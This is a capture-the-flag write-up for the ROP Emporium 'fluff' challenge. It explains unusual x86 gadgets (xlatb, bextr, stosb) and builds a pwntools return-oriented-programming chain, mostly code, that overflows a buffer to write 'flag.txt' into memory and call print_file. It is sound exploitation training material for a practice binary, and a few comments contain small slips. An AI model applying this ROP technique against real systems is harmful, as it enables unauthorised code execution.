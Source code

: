 # FLUFF

[fluff](https://ropemporium.com/challenge/fluff.html)

Ever heard how x86 is Complex Instruction Set Computer (CISC) architecture. This challenge is where this property rears its ugly head.

Instead of our familiar `mov [reg], reg` gadgets, we are faced with this:

```
$ objdump -M intel -D ./fluff
...
0000000000400628 <questionableGadgets>:
  400628:       d7                      xlat   BYTE PTR ds:[rbx]
  400629:       c3                      ret    
  40062a:       5a                      pop    rdx
  40062b:       59                      pop    rcx
  40062c:       48 81 c1 f2 3e 00 00    add    rcx,0x3ef2
  400633:       c4 e2 e8 f7 d9          bextr  rbx,rcx,rdx
  400638:       c3                      ret    
  400639:       aa                      stos   BYTE PTR es:[rdi],al
  40063a:       c3                      ret    
  40063b:       0f 1f 44 00 00          nop    DWORD PTR [rax+rax*1+0x0]
...
```

Maybe ROPgadget will show us something different?

```
$ ROPgadget --binary ./fluff --ropchain
...
0x00000000004005e2 : mov byte ptr [rip + 0x200a4f], 1 ; pop rbp ; ret
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
0x0000000000400602 : mov ebp, esp ; pop rbp ; jmp 0x400590
0x000000000040057c : mov edi, 0x601038 ; jmp rax
0x0000000000400601 : mov rbp, rsp ; pop rbp ; jmp 0x400590
...
```

Nothing. We can't even move our string into `.data`.

Let's take a look at what the *questionableGadgets* can offer us then. What we can immediately notice is that there are 3 new x86 instructions that we haven't seen before.

| Instruction | Description |
| - | - |
| xlatb | Set `al` to the memory location at `rbx+al`. Equivalent to `mov BYTE al, [rbx+al]`. |
| bextr rbx, rcx, rdx | Extract bits from `rcx` into `rbx`, starting from the bit specified by the first byte of `rdx` for a maximum length specified by the second byte of `rdx`. |
| stosb | Set the byte at memory location `rdi` to the value of `al`, then increment `rdi` by one. Equivalent to `mov BYTE [rdi], al ; add rdi, 1`. |

Theoretically we can set `rbx` to anything we want by manipulating `rcx` and `rdx`. For example, by setting it the value of `rcx` to `0xaaaabbbbccccdddd` and making sure that the first byte of `rdx` is 0 and the second byte is 64 (i.e. `rdx` is `0x4000`), then we can set `rbx` to `0xaaaabbbbccccdddd`. This is pretty much the same as `mov rbx, rcx`.

```python
from pwn import *
...
POPRDXRCXBEXTR = p64(0x40062a) # pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret

# set rbx to 0xaaaabbbbccccdddd

attack = b"A"*0x28
attack += POPRDXRCXBEXTR
attack += p64(0x4000) # set rdx to 0x4000
# set rcx to 0xaaaabbbbccccdddd
# we have to minus off 0x3ef2 to cancel out the next instruction which adds 0x3ef2 to rcx
attack += p64(0xaaaabbbbccccdddd - 0x3ef2)
...
```

Next we can use the `xlatb` gadget to set `al` to the byte at `rbx+al`. Then, we can copy that byte to the memory address pointed by `rdi` using `stosb`.

This is the basic principle for how we are going to move our "flag.txt" to `.data`.

Here are some extra gadgets and memory addresses that I thought would be useful.

```
0x400610 : mov eax, 0 ; pop rbp ; ret
0x4006a3 : pop rdi ; ret
0x400295 : ret
0x601028 : .data
```

## The attack

We start off by setting `rdi` to the location of the `.data` section and set `al` to 0.

```python
from pwn import *
...
DATA = 0x601028
POPRDI = p64(0x4006a3) # pop rdi ; ret
MOVEAX0_POPRBP = p64(0x400610) # mov eax, 0 ; pop rbp ; ret
...
attack = b"A"*0x28
attack += POPRDI + p64(DATA) # set rdi to data
attack += MOVEAX0_POPRBP + b"12345678" # junk data for rbp
...
```

Next, we have to move each byte in "flag.txt" into `.data`. Since we cannot pop our flag and move it into `.data`, we have to use random bytes in the binary to copy into `.data`. We can do this by using the `search` method to find our bytes.

```python
...
exe = context.binary = ELF('./fluff')
...
for byte in b"flag.txt":
    byteloc = next(exe.search(byte))
...
```

Now that we know where each byte is, we can start copying them over to `.data`. Since the `xlatb` instruction copies the data from `rbx+al`, we have to cancel out the effect of `al` by minusing it off on top off subtracting `0x3ef2`. This means that when `pop rcx` is performed, `rcx` should take the value `byteloc - al - 0x3ef2`. That way, the value of `al` when we do `xlatb` would be copied from the byte located at `byteloc`. After that, we can copy the value of `al` to `.data` using `stosb`. Since `rdi` is incremented in the `stosb` instruction, we don't have to increment the value of `rdi` ourselves when we copy over our new byte.

```python
from exe import *
...
POPRDXRCX = p64(0x40062a) # pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
STOSB = p64(0x400639) # stosb [rdi], al ; ret
XLATB = p64(0x400628) # xlatb ; ret
...
current_al = 0 # al was set to 0 when we did: mov eax, 0 ; push rbp ; ret
for byte in b"flag.txt":
    byteloc = next(exe.search(byte))
    # set rbx to byteloc-current_al
    attack += POPRDXRCX + p64(0x4000) + p64(byteloc-current_al-0x3ef2)
    # al = *(rbx + al) = *( (byteloc-current_al) + current_al ) = *byteloc
    attack += XLATB
    attack += STOSB
    # no need to increment rdi because stosb does that for us
    current_al = byte
...
```

After this for loop, "flag.txt" is in place. We can set `rdi` back to `.data` and return to `print_file()`.

```python
from pwn import *
...
DATA = 0x601028
RET = p64(0x400295) # ret
POPRDI = p64(0x4006a3) # pop rdi ; ret
PRINT_FILE = p64(0x400510) # print_file
...
attack += POPRDI + p64(DATA) + PRINT_FILE
...
```

Our attack should look like this:

```python
from pwn import *
...
DATA = 0x601028
RET = p64(0x400295) # ret
POPRDI = p64(0x4006a3) # pop rdi ; ret
POPRDXRCX = p64(0x40062a) # pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
BEXTRRBXRCXRDX = p64(0x400633) # bextr rbx, rcx, rdx ; ret
STOSB = p64(0x400639) # stosb [rdi], al ; ret
XLATB = p64(0x400628) # xlatb ; ret
MOVEAX0_POPRBP = p64(0x400610) # mov eax, 0 ; pop rbp ; ret
PRINT_FILE = p64(0x400510) # print_file

attack = b"A"*0x28
attack += POPRDI + p64(DATA) # set rdi to data
attack += MOVEAX0_POPRBP + b"12345678" # junk data for rbp

current_al = 0 # zeroed out by MOVEAX0_POPRBP
for byte in b"flag.txt":
    byteloc = next(exe.search(byte))
    # set rbx to byteloc-current_al
    attack += POPRDXRCX + p64(0x4000) + p64(byteloc-current_al-0x3ef2)
    # al = *(rbx + al) = *( (byteloc-current_al) + current_al ) = *byteloc
    attack += XLATB
    attack += STOSB
    # no need to increment rdi because stosb does that for us
    current_al = byte
    
attack += POPRDI + p64(DATA) + PRINT_FILE

io.sendline(attack)
...
```
